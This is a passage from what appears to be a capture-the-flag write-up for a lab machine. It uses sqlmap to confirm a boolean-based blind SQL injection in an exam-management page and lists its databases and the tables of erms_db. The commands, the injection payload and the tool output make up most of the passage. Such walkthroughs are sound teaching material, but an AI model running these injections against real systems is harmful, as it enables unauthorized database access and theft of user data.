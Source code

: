         Type: boolean-based blind
        Title: AND boolean-based blind - WHERE or HAVING clause
        Payload: p=take_exam&id=1' AND 5630=5630 AND 'cpfT'='cpfT
    ---
    [14:05:41] [INFO] testing MySQL
    [14:05:41] [INFO] confirming MySQL
    [14:05:41] [INFO] the back-end DBMS is MySQL
    back-end DBMS: MySQL >= 5.0.0
    ...[snip]...



It found the injection and I can now ask it questions.

### Access SFMS

#### DB Enumeration

I'll list the DBs with `--dbs` (I'll also add `--batch` to choose
default answers to any prompts, and threads are safe because it's
boolean, not time-based):



    oxdf@hacky$ sqlmap --dbs -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    available databases [4]:
    [*] db_sfms
    [*] erms_db
    [*] information_schema
    [*] roundcubedb
    ...[snip]...



`information_schema` is the internal MySQL stuff. `roundcube` is a
webmail service (which I haven't seen yet). `erms_db` is likely the DB
for Exam Management. I have no idea what `db_sfms` is.

#### erms_db

I'll start with `erms_db`. It has six tables:



    oxdf@hacky$ sqlmap -D erms_db --tables -u 'http://exam.seventeen.htb/?p=take_exam&id=1' -p id --technique B --batch --threads 10
    ...[snip]...
    Database: erms_db
    [6 tables]
    +---------------+
    | category_list |
    | exam_list     |
    | option_list   |
    | question_list |
    | system_info   |
    | users         |
    +---------------+
    ...[snip]...
